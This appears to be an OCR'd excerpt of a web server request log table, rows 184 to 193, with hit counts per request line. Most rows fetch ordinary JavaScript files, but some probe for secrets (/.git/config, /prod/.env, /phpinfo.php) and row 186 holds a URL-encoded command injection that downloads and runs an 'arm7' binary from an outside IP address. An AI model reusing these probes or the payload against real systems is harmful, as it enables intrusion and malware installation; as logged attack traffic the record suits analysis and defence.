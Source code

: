 | 184 |                     3 | GET /project/backend/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 185 |                     3 | GET /prod/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 186 |                     3 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.124%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                           |
| 187 |                     3 | GET /js/moment.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 188 |                     3 | GET /js/jquery.mask.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 189 |                     3 | GET /js/mainControllers.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 190 |                     3 | GET /js/mainControllersUtils.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 191 |                     3 | GET /js/bootstrap.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 192 |                     3 | GET /Module1/js/Home_9b5766a815f5416da1d14b6622620932.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 193 |                     3 | GET /phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |